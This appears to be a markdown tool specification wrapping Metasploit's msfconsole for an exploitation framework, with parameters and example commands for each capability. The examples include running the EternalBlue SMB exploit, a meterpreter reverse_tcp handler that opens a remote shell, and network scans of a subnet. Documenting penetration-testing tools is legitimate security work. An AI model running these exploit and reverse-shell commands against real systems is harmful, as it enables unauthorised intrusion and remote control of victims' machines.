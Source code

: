 # msfconsole

Metasploit Framework penetration testing tool

**Version:** 1.0.0
**Author:** Wish Framework Team
**Category:** exploitation
**Tags:** exploitation, pentesting, vulnerability, msf, metasploit

## Requirements
- metasploit-framework

## Capabilities

### exploit
Run an exploit module against target(s)

**Parameters:**
- `module`: The exploit module path (e.g., exploit/windows/smb/ms17_010_eternalblue)
- `rhosts`: Target host(s) - IP address or range
- `rport`: Target port (optional, module default used if not specified)
- `payload`: Payload to use (optional, module default used if not specified)
- `lhost`: Local host for reverse connection (required for reverse payloads)
- `lport`: Local port for reverse connection (optional, default: 4444)
- `options`: Additional module options as key-value pairs (optional)

**Examples:**
```bash
use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS 192.168.1.100; set LHOST 192.168.1.10; exploit
```
```bash
use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.10; exploit
```

### auxiliary
Run an auxiliary module (scanners, fuzzers, etc.)

**Parameters:**
- `module`: The auxiliary module path (e.g., auxiliary/scanner/smb/smb_version)
- `rhosts`: Target host(s) - IP address or range
- `rport`: Target port (optional)
- `options`: Additional module options as key-value pairs (optional)

**Examples:**
```bash
use auxiliary/scanner/smb/smb_version; set RHOSTS 192.168.1.0/24; run
```
```bash
use auxiliary/scanner/portscan/tcp; set RHOSTS 192.168.1.100; set PORTS 1-1000; run
```

### search
Search for modules by name, platform, or CVE

**Parameters:**
- `query`: Search query (module name, CVE, platform, etc.)
- `type`: Module type filter (optional: exploit, auxiliary, post, payload)

**Examples:**
```bash
search type:exploit platform:windows smb
```
```bash
search cve:2017-0144
```
```bash
search apache struts
```

### info
Get detailed information about a module

**Parameters:**
- `module`: Full module path to get information about

**Examples:**
```bash
info exploit/windows/smb/ms17_010_eternalblue
```
```bash
info auxiliary/scanner/smb/smb_version
```